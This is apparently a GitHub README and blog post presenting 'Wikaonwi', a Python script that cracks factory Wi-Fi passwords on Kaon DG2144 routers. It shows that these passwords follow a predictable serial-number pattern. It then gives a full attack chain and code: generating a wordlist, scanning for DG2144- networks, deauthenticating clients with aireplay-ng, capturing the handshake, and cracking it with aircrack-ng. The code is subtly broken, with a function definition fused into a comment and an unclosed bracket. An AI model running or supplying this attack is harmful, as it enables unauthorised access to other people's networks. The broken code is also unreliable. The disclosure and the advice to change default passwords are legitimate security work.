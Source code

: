 # WIikaonWi
a script to take advantage of simple wifi credentials in the KAON DG2144 and other similar devices.
Wikaonwi: A Factory Wi-Fi Credential Vulnerability

Date: 1/21/25 9:35 PM

Wikaonwi:

In the ever-evolving landscape of cybersecurity, vulnerabilities can often be found in the most unexpected places. One such vulnerability has been identified in the Kaon DG2144 router, where the factory Wi-Fi password is not as random as one might expect. This flaw can lead to the easy recovery of a device's Wi-Fi credentials, posing a significant risk to users. In this blog post, we will explore the details of this vulnerability, how it can be exploited, and provide a proof of concept for educational purposes.
Understanding the Vulnerability

The Kaon DG2144 router has a predictable pattern in its factory-set Wi-Fi passwords. Instead of being randomly generated, the passwords are based on the device's serial number, which follows a specific format. For example, consider the following serial numbers:


        

        BS10096321004321

        BS10096123001234

        BS10096XXX00XXXX

        

    

The passwords are constructed using a fixed prefix (BS10096) followed by a combination of numbers, making them susceptible to brute-force attacks. The predictable nature of these passwords means that an attacker can easily generate all possible combinations and attempt to gain access to the Wi-Fi network.These devices also have a prefixed SSID which makes them easier to identify being DG2144-XXXX
How We Can Exploit This Vulnerability

To exploit this vulnerability, an attacker can follow these steps:

    Generate All Possible Combinations: Using the known format of the password, generate all possible combinations based on the serial number structure. The format is as follows: BS10096(000-999)00(0000-9999).
    Scan for Target Wi-Fi Networks: Identify Wi-Fi networks that start with the SSID prefix DG2144-.
    Deauthenticate Connected Clients: Use a deauthentication attack to disconnect clients from the target Wi-Fi network, forcing the router to send a handshake when clients reconnect.
    Capture the Handshake: Monitor the network to capture the handshake, which contains the necessary information to crack the password.
    Crack the Handshake: Use the generated combinations to attempt to crack the captured handshake and recover the Wi-Fi password.

Proof of Concept Code

Below is a Python script that demonstrates the steps outlined above. This script is for educational purposes only and should not be used for malicious activities.


```        
        
import subprocess
import time
import os
import re

# Replace wlan0 with your wireless interface
def generate_combinations():
    first_part = "BS10096"
    combinations = []

    for i in range(1000): 
        for j in range(10000): 
            combinations.append(f"{first_part}{i:03}00{j:04}")
    return combinations

def save_combinations_to_file(combinations, filename='combinations.txt'):
    with open(filename, 'w') as f:
        for combo in combinations:
            f.write(combo + '\n')

def scan_for_wifi():
    print("Scanning for Wi-Fi networks...")
    output = subprocess.check_output(["airodump-ng", "wlan0"], universal_newlines=True) 
    return output

def extract_bssid(output, target_ssid):
    bssid_pattern = re.compile(r'([0-9A-Fa-f:]{17})\s+.*\s+{}\s+'.format(target_ssid))
    bssids = bssid_pattern.findall(output)
    return bssids


def deauth_clients(bssid):
    print(f"Deauthenticating clients from {bssid}...")
    subprocess.run(["aireplay-ng", "--deauth", "10", "-a", bssid, "wlan0"]) 

def capture_handshake(bssid, output_file='captured_handshake.cap'):
    print(f"Capturing handshake for {bssid}...")
    subprocess.run(["airodump-ng", "--bssid", bssid, "-c", "6", "-w", output_file, "wlan0"]) 
    time.sleep(30)  # Wait for the handshake def crack_handshake(bssid, combinations_file='combinations.txt', handshake_file='captured_handshake.cap'):
    print(f"Cracking handshake for {bssid}...")
    subprocess.run(["aircrack-ng", "-w", combinations_file, "-b", bssid, handshake_file])

def print_banner():
    banner = r"""
                 d8, d8b                                                    d8,
                `8P  ?88                                                   `8P 
                      88b                                                      
 ?88   d8P  d8P  88b  888  d88' d888b8b   d8888b   88bd88b  ?88   d8P  d8P  88b
 d88  d8P' d8P'  88P  888bd8P' d8P' ?88  d8P' ?88  88P' ?8b d88  d8P' d8P'  88P
 ?8b ,88b ,88'  d88  d88888b   88b  ,88b 88b  d88 d88   88P ?8b ,88b ,88'  d88 
 `?888P'888P'  d88' d88' `?88b,`?88P'`88b`?8888P'd88'   88b `?888P'888P'  d88' 

    """                                                                          
    print(banner)                                                                 

def main():
    print_banner()
    target_ssid = "DG2144-"
    combinations = generate_combinations()
    save_combinations_to_file(combinations)

    # Scan for Wi-Fi networks
    output = scan_for_wifi()
    # Extract BSSID dynamically
    bssids = extract_bssid(output, target_ssid)
    if not bssids:
        print("No BSSID found for the target SSID.")
        return

    print("Available BSSIDs:")
    for bssid in bssids:
        print(bssid)

    # Select the first BSSID found
    selected_bssid = bssids[0
    # Deauthenticate clients
    deauth_clients(selected_bssid)
    # Capture the handshake
    capture_handshake(selected_bssid)
    # Crack the handshake
    crack_handshake(selected_bssid)
    
if __name__ == "__main__":
    main()

    
```
    

Conclusion

The vulnerability in the Kaon DG2144 router highlights the importance of strong, unpredictable passwords for network security. By understanding how such vulnerabilities can be exploited, users can take proactive measures to secure their devices. It is crucial to change factory-set passwords to unique, complex ones to mitigate the risk of unauthorized access. Always stay informed about potential vulnerabilities in your devices and take necessary precautions to protect your network.
